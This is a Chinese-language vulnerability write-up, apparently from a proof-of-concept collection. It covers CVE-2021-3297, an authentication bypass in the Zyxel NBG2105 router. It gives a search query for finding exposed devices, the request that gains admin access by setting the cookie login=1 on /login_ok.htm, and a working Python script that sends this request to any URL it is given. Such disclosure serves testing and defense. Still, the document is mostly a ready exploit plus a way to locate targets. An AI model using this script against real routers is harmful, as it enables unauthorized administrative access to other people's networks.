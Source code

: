 # Zyxel NBG2105 身份验证绕过 CVE-2021-3297

## 漏洞描述

Zyxel NBG2105 存在身份验证绕过，攻击者通过更改 login参数可用实现后台登陆

## 漏洞影响

```
Zyxel NBG2105
```

## 网络测绘

```
app="ZyXEL-NBG2105"
```

## 漏洞复现

登录页面如下

![](./images/202202140930455.png)

其中前端文件 **/js/util_gw.js** 存在前端对 Cookie login参数的校验

![](./images/202202140930281.png)

可以看到检测到 Cookie中的 **login=1** 则跳转 home.html

```plain
function setCookie() //login_ok.htm use
{
	document.cookie="login=1";
	MM_goToURL('parent', 'home.htm');
}
```

请求如下则会以管理员身份跳转到 **home.htm页面**

```plain
http://xxx.xxx.xxx.xxx/login_ok.htm

Cookie: login=1;
```

![](./images/202202140931038.png)

## 漏洞POC

```
# python3
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning


def poc(url):
    exp = url + "/login_ok.htm"

    header = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "cookie":"login=1",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=exp, headers=header, verify=False,timeout=10)
        #print(response.text)
        if response.status_code == 200 and "GMT" in response.text:
            print(exp + " 存在Zyxel NBG2105 身份验证绕过 CVE-2021-3297漏洞！！！")
            print("数据信息如下：")
            print(response.text)
        else:
            print(exp + " 不存在Zyxel NBG2105 身份验证绕过 CVE-2021-3297漏洞！！！")
    except Exception as e:
        print(exp + "请求失败！！")


def main():
    url = str(input("请输入目标url："))
    poc(url)


if __name__ == "__main__":
    main()
```

## 参考文章

https://github.com/nieldk/vulnerabilities/blob/main/zyxel%20nbg2105/Admin%20bypass

